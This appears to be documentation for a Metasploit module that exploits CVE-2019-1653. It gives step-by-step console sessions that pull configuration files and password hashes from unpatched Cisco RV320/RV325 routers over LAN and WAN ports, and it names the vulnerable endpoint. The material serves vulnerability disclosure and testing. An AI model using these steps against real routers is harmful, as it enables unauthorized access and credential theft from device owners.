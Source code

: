 ## Vulnerable Application

[CVE-2019-1653](https://nvd.nist.gov/vuln/detail/CVE-2019-1653) (aka Cisco Bugtracker ID [CSCvg85922](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info)) is an unauthenticated disclosure of device configuration information for the Cisco RV320/RV325 small business router.  The vulnerability was responsibly disclosed by [RedTeam Pentesting GmbH](https://seclists.org/fulldisclosure/2019/Jan/52).

An exposed remote administration interface (on :443) would allow an attacker to retrieve password hashes and other sensitive device configuration information.  On version `1.4.2.15`, the vulnerabilty is exploitable via the WAN interface on port 8007 (by default) or 443 (if remote administration is enabled), in addition to port 443 on the LAN side.  On version `1.4.2.17`, only LAN port 443 is accessible by default, but user configuration can open port 443 for remote management on the WAN side, making the device vulnerable externally.

More context is available from [Rapid7's blog post](https://blog.rapid7.com/2019/01/29/cisco-r-rv320-rv325-router-unauthenticated-configuration-export-vulnerability-cve-2019-1653-what-you-need-to-know/).


## Verification Steps

 1. Start `msfconsole`
 2. `use auxiliary/gather/cisco_rv320_config`
 3. `set RHOSTS 192.168.1.1` (default LAN IP) or to the WAN interface
 4. `run`
 5. Review the downloaded configuration file cited in the output.  For example:
>```
>[+] Stored configuration (128658 bytes) to /home/administrator/.msf4/loot/20190206213439_default_192.168.1.1_cisco.rv.config_791561.txt
>```
 6. If the database is connected, review the `hosts`, `creds`, and `loot` commands

## Options

*SSL*: Should be set to 'true' for port 443 and set to 'false' for port 80 or port 8007.

*TARGETURI*: Should point to the `/cgi-bin/config.exp` endpoint and likely should never be changed.

## Scenarios

#### Against firmware version 1.4.2.15, on the LAN interface, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.15, on the WAN interface, port 8007:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 203.0.113.54
RHOSTS => 203.0.113.54
msf5 auxiliary(gather/cisco_rv320_config) > set RPORT 8007
RPORT => 8007
msf5 auxiliary(gather/cisco_rv320_config) > set SSL false
SSL => false
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_203.0.113.54_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.17, on the LAN interface, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against newer firmware (>= 1.4.2.19), on the LAN interface, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[-] Auxiliary aborted due to failure: not-vulnerable: Response suggests device is patched
[*] Auxiliary module execution completed
```

#### If module succeeds, check the database:

```
msf5 auxiliary(gather/cisco_rv320_config) > hosts

Hosts
=====

address      mac                name          os_name  os_flavor  os_sp  purpose  info  comments
-------      ---                ----          -------  ---------  -----  -------  ----  --------
203.0.113.54 70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
192.168.1.1  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
```

```
msf5 auxiliary(gather/cisco_rv320_config) > creds
Credentials
===========

host         origin       service          public  private                            realm  private_type
----         ------       -------          ------  -------                            -----  ------------
203.0.113.54 192.168.1.1  8007/tcp (http)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
192.168.1.1  192.168.1.1  443/tcp (https)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
```

```
msf5 auxiliary(gather/cisco_rv320_config) > loot

Loot
====

host         service  type             name  content     info  path
----         -------  ----             ----  -------     ----  ----
203.0.113.54          cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206213439_default_203.0.113.54_cisco.rv.config_791561.txt
192.168.1.1           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206211312_default_192.168.1.1_cisco.rv.config_412095.txt
```
